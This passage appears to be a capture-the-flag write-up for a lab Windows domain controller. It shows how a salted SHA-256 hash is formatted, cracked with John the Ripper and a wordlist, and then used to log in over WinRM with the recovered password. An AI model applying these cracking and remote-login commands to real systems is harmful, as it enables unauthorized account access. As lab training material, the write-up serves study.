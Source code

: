 ![Pasted image 20250518211910](MediaFiles/Pasted%20image%2020250518211910.png)

in our case, we have
```shell
sha256($s.$p)  ← SHA-256 of salt + password
```
i tried dynamic_61 but failed, and dynamic_82 worked so i used that

first lets create our file in this format:
```shell
f.frizzle:$dynamic_82$067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03$/aACFhikmNopqrRTVz2489
```
then use john the ripper to crack this:
```shell
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt
```
be carefull to the hash format! (--format=dynamic='sha256($s.$p)')

after cracking, i found this password
![Pasted image 20250518213809](MediaFiles/Pasted%20image%2020250518213809.png)
so our updated creds are
```shell
f.frizzle
Jenni_Luvs_Magic23
```

now we are one step closer to logging in , lets try logging in with win-rm
```shell
evil-winrm -i frizzdc.frizz.htb -u f.frizzle -p 'Jenni_Luvs_Magic23'
```
